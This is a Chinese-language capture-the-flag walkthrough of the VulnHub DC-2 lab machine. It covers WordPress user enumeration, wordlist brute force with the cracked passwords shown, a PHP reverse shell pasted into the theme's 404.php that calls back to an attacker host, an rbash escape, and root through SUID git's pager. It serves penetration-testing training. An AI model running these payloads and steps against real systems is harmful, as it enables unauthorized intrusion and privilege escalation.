

## 免责声明

> **Disclaimer:** 本文仅供安全研究与教育用途。未经授权对他人系统实施攻击属违法行为，作者不承担任何因不当使用本文导致的后果。

---

## 攻击路径总览



---

## 一、信息收集

### 1.1 主机发现与端口扫描

```bash
sudo arp-scan --localnet
# 定位目标 → 192.168.1.134（请替换为实际 IP）
```

```bash
nmap -sC -sV -p- 192.168.1.134 -oN dc2_full.txt
```

| 端口 | 服务 | 版本 |
|------|------|------|
| 80/tcp | HTTP | Apache httpd 2.4.10 |
| 7744/tcp | SSH | OpenSSH 6.7p1 |

访问 `http://192.168.1.134` 时自动跳转至 `http://dc-2`，需修复本地 hosts：

```bash
echo "192.168.1.134 dc-2" >> /etc/hosts
```

---

## 二、WordPress 发现与侦察

打开 `http://dc-2`，识别为 WordPress 站点。浏览首页即发现 **Flag 1**：

> The usual WordPress lists: admin, tom, jerry

### 2.1 wpscan 用户枚举

```bash
wpscan --url http://dc-2 --enumerate u
```

确认三个有效用户：`admin`、`tom`、`jerry`。

### 2.2 cewl 定向密码字典

WordPress 站点页面富含英文词汇，非常适合 `cewl` 爬取：

```bash
cewl http://dc-2 -w dc2_pass.txt --with-numbers
```

相比通用弱口令字典，定向字典命中率大幅提升。

### 2.3 wpscan 密码爆破

```bash
wpscan --url http://dc-2 -U admin,tom,jerry -P dc2_pass.txt
```

```
[SUCCESS] - tom / parturient
[SUCCESS] - jerry / adipiscing
```

`admin` 未爆出，但两个低权限用户密码到手。

---

## 三、WordPress Getshell

### 3.1 后台登录

访问 `http://dc-2/wp-admin`，以 `tom:parturient` 登录。在 Pages 中找到 **Flag 2**：

> If you can't exploit WordPress... there is another way. Hint: tom

### 3.2 主题编辑器写 Webshell

导航至 **Appearance → Editor → 404.php**，贴入反弹 Shell：

```php
<?php
set_time_limit(0);
$sock = fsockopen("192.168.xx.xxx", 4444);
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);
proc_close(proc_open('/bin/sh', $descriptorspec, $pipes));
?>
```

Kali 端监听：

```bash
nc -lvnp 4444
```

访问任意不存在的页面（`http://dc-2/xyz`）触发 404，Netcat 收到 Shell。

---

## 四、rbash 受限 Shell 逃逸

### 4.1 识别 rbash 限制

```
$ whoami
rbash: command not found
$ echo $SHELL
/bin/rbash
```

`cd`、`ls` 等基础命令均不可用——确认为 Restricted Bash。

### 4.2 PATH 重写法

利用 rbash 允许命令行前缀赋值的特性：

```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export PATH
```

命令恢复正常后调用 `vi`：

```bash
/usr/bin/vi
```

### 4.3 vi 逃逸法

进入 vi 后按 `:` 进入命令模式：

```
:set shell=/bin/bash
:shell
```

获得非受限 `/bin/bash`。

### 4.4 收集 Flag 3 与用户切换

```bash
cat /home/tom/flag3.txt
```

> Perhaps he should su for all the stress he causes.

```bash
su tom
# 密码: parturient
```

---

## 五、权限提升：git SUID → root

### 5.1 SUID 二进制枚举

```bash
find / -perm -u=s -type f 2>/dev/null
```

发现异常条目：`/usr/bin/git`（`-rwsr-xr-x root root`）。

### 5.2 分页器注入提权

Git 以 SUID root 运行，`--help` 会调用分页器 `less`：

```bash
/usr/bin/git --help
```

在 `less` 分页器中输入：

```
!/bin/bash
```

**原理：** `!` 是 `less` 的 Shell 执行命令；由于 git 以 SUID root 身份调用分页器，子进程继承 root 权限，直接弹出 root Shell。

### 5.3 最终 Flag

```bash
whoami
root
cat /root/proof.txt
```

🚩 **DC-2 完全攻克。**

---

## 六、攻击链总结表

| 阶段 | 技术 | 产出 |
|------|------|------|
| 主机发现 | arp-scan / netdiscover | 目标 IP |
| 端口扫描 | nmap -sC -sV -p- | 80 (HTTP), 7744 (SSH) |
| 用户枚举 | wpscan --enumerate u | admin, tom, jerry |
| 字典生成 | cewl 爬取 | 定向密码字典 dc2_pass.txt |
| 密码爆破 | wpscan --passwords | tom:parturient, jerry:adipiscing |
| 初始访问 | 主题编辑器反弹 Shell | www-data 低权限 |
| Shell 增强 | vi 逃逸 / PATH 重写 | 非受限 bash |
| 横向移动 | su tom | tom 用户 Shell |
| 权限提升 | git --help → `!/bin/bash` | root Shell |

---

## 七、延伸学习

- rbash 其他逃逸法：`man`、`less`、`more`、`awk`、`python -c "import pty; pty.spawn('/bin/bash')"`
- [GTFO Bins](https://gtfobins.github.io/) —— SUID/Sudo 提权圣经
- 挑战 DC 系列后续靶机（DC-3 → DC-9）
- 尝试手工完成 WordPress 用户枚举与爆破（不依赖 wpscan）

## 参考

- [VulnHub DC-2](https://www.vulnhub.com/entry/dc-2,311/)
- [wpscan](https://wpscan.com/wordpress-security-scanner/)
- [GTFO Bins - git](https://gtfobins.github.io/gtfobins/git/)
- [cewl](https://www.kali.org/tools/cewl/)
